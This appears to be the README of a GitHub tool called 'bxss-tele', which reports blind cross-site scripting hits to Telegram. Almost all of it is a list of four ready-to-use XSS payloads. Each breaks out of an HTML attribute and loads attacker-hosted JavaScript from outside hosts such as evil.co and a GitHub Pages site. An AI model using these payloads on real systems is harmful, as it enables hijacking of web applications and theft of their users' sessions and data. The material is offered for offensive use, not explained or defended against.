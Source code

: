 # bxss-tele
Blind XSS Alert Telegram

# Payloads
```"><script src="http://evil.co/bxss.js"></script>``` \
```"><script src=http://trhacknon.github.io/bx.js></script>``` \
```"><script src="https://raw.githubusercontent.com/trhacknon/bxss-tg/master/bxss.js">``` \
```"><script>$.getScript("//evil.co/bxt.js")</script>```
